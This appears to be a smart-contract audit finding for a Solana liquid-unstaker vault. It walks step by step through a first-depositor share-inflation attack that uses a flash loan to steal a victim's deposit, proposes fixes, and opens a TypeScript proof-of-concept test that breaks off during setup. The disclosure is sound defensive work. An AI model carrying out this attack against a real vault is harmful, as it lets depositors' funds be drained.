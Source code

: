 Example Attack Scenario:
1. The Vault is deployed and initial balance of the `sol_vault` is `890880` (rent-exempt amaount).
2. The Attacker deposits `1` lamport and gets back `890881` LP tokens. The `sol_vault` balance is also `890881`.
3. The Attacker takes a flash loan of `793666283520` amaount (which is equal to `890880 * 890880 - 890880`). The purpose
of this loan is to inflate price of LP token to the point that all except one can be burned, but the amaount left in the 
`sol_vault` will guarantee rent-exempt. The amaount is transferred directly to the `sol_vault` and the Attacker burns `890880`
LP tokens. The balance of the `sol_vault` is now `890880` and the LP total supply is `1`.
4. Now The Attecker transfer `1` SOL to `sol_vault`. 
5. The Victim wants to deposit `1` SOL. The program calculates the amaount of LP tokens in the following way: `1 * 1000000000 / 1000890880`
which is equal to zero. The Victim deposited `1` SOL, but didn't get any LP. The Attacker with 1 LP token can withdraw entire `sol_vault` balance.

Proposed solutons:
- Introduce check that minting 0 LP tokens is not allowed.
- UniswapV2 style - locking fixed portion of LP tokens on first mint.
- OpenZeppelin style - decimal offset. [1]


The following PoC presents the issue:

```ts
describe.only("liquid-unstaker-PoC-1", () => {

  // Configure the client to use the local cluster.
  anchor.setProvider(anchor.AnchorProvider.env());
  const provider = anchor.getProvider();

  const program = anchor.workspace.LiquidUnstaker as Program<LiquidUnstaker>;

  // Keypairs
  const userKeypair = Keypair.generate();
  const userSolKeypair = Keypair.generate();
  const managerFeeAccount = Keypair.generate();
  const adminKeypair = Keypair.generate();

  // Accounts that are reused through the tests
  let poolAccount: PublicKey;
  let poolBump: number;
  let solVault: PublicKey;
  let lpMintPubkey: PublicKey;
  let userLpAccount: PublicKey;
  let victimLpAccount: PublicKey;

  // Constants
  const feeMax = Math.floor(0.08 * FEE_PCT_BPS);    // 8%
  const feeMin = Math.floor(0.001 * FEE_PCT_BPS);   // 0.1%
  const minSolForMinFee = new anchor.BN(100 * LAMPORTS_PER_SOL);
  const managerFeePct = 10 // 10%
  const depositAmount = minSolForMinFee.add(new anchor.BN(100 * LAMPORTS_PER_SOL));
  const secondDepositAmount = depositAmount.div(new anchor.BN(2));
  let lpAmountFirstDeposit = 0;
  let lpAmountSecondDeposit = 0;

  const stakePoolAddress = new PublicKey("Fu9BYC6tWBo1KMKaP3CFoKfRhqv9akmy3DuYwnCyWiyC");

  before(async () => {
    // Airdrop SOL to user and admin
    await provider.connection.confirmTransaction(
      await provider.connection.requestAirdrop(
        userKeypair.publicKey,
        1000 * LAMPORTS_PER_SOL
```